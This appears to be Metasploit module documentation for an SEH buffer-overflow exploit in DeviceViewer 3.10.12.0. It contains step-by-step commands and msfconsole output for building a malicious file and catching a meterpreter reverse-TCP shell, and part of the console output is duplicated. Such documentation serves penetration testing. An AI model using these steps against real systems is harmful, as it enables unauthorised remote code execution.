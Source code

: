 ## Vulnerable Application

This module exploits a SEH stack buffer overflow in DeviceViewer version 3.10.12.0. By creating a specially crafted file and copying its content in the "User" login field, an attacker will be able to gain arbitrary code execution.

Link to vulnerable software [EDB](https://www.exploit-db.com/apps/4d10486a079bd1f1864c30e86cd2aa80-DeviceViewer.exe) - [VoidSec](https://github.com/VoidSec/Exploit-Development/blob/master/windows/x86/local/DeviceViewer_v.3.10.12.0/DeviceViewer.exe)

## Test Results
  * Windows XP SP3 Pro x64 (DEP & ASLR disabled) - trigger
  * Windows 7 x86 (DEP & ASLR disabled) - trigger
  * Windows 10 Pro x64 v.1909 Build 18363.720 (DEP & ASLR enabled) - trigger

## Verification Steps
  Example steps in this format (is also in the PR):

  1. Install the application on the target machine
  2. Start msfconsole
  3. Do: ```use exploit/windows/fileformat/device_viewer```
  4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
  5. Do: ```set LHOST [IP]```
  6. Do: ```exploit```
  7. This file will be created: ```DeviceViewer_v.3.10.12.0_exploit.txt stored at /home/[USER]/.msf4/local/DeviceViewer_v.3.10.12.0_exploit.txt```
  8. Do: ```use exploit/multi/handler```
  9. Do: ```set payload [windows/meterpreter/reverse_tcp]```
  10. Do: ```set LHOST [IP]```
  11. Do: ```exploit```
  12. Do: on the target Windows machine open Device Viewer
  13. Device Viewer's will present a login prompt
  14. Do: paste the content of `DeviceViewer_v.3.10.12.0_exploit.txt` in the "User" field
  15. Do: press the "Login" button
  16. The handler will receive the newly created session
 
## Options

  **FILENAME**

  The file name

## Scenarios
### DeviceViewer v.3.10.12.0 on Windows 10 (Pro x64 v.1909 Build 18363.720, DEP & ASLR enabled)

```
msf5 > use exploit/windows/fileformat/device_viewer 
msf5 exploit(windows/fileformat/device_viewer) > show options

Module options (exploit/windows/fileformat/device_viewer):

   Name      Current Setting                       Required  Description
   ----      ---------------                       --------  -----------
   FILENAME  DeviceViewer_v.3.10.12.0_exploit.txt  no        The file name.


Exploit target:

   Id  Name
   --  ----
   0   DeviceViewer v.3.10.12.0 - Windows 10 Pro x64 (DEP + ASLR Bypass)


msf5 exploit(windows/fileformat/device_viewer) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/device_viewer) > set lhost 192.168.206.1
lhost => 192.168.206.1
msf5 exploit(windows/fileformat/device_viewer) > run

[*] Trying target DeviceViewer v.3.10.12.0 - Windows 10 Pro x64 (DEP + ASLR Bypass)...
[*] Creating 'DeviceViewer_v.3.10.12.0_exploit.txt' file ...
[+] DeviceViewer_v.3.10.12.0_exploit.txt stored at /home/kali/.msf4/local/DeviceViewer_v.3.10.12.0_exploit.txt
msf5 exploit(windows/fileformat/device_viewer) > 
msf5 exploit(windows/fileformat/device_viewer) > use exploit/multi/handler 
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.206.1
lhost => 192.168.206.1
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.206.1:4444 
sf5 exploit(windows/fileformat/device_viewer) > use exploit/multi/handler 
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.206.1
lhost => 192.168.206.1
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.206.1:4444 
```